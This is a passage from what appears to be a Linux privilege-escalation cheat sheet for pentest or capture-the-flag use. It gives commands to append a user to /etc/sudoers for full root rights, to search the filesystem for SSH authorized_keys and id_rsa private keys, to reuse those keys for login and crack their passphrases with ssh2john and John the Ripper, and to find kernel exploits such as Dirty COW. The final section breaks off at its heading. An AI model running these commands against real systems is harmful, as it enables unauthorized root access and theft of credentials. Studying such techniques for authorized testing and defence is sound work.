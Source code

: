 ```  
   
```    
/etc/sudoers
```    
   echo "<username> ALL=(ALL:ALL) ALL" >> /etc/sudoers // Replace "Username" with your current user (Example: www-data)
   sudo su
   id && whoami

   ```
# SSH Private Keys 



```
find / -name authorized_keys 2> /dev/null              // Any Public Keys?
find / -name id_rsa 2> /dev/null                       // Any SSH private keys? 

   Copy id_rsa contents of keys found with the above command
   Create a local file on your box and paste the content in
   chmod 600 <local_file>
   ssh -i <local_file> user@IP
   
   // Is the key password protected?

   ssh2john <local_file> > hash
   john hash --wordlist=/usr/share/wordlists/rockyou.txt
   
```

# Kernel Expliots


```
uname -a // What OS kernel are we using?

// Google Search (Example): 4.4.0-116-generic #140-Ubuntu Expliots OR 4.4.0-116-generic #140-Ubuntu PoC github
// Read the expliots and follow the instructions
// Popular Linux Kernel Exploits

Dirty COW (CVE-2016-5195)
URL: https://dirtycow.ninja/

Other Kernel Expliots
URL: https://github.com/SecWiki/linux-kernel-exploits

```

# Sudo -l
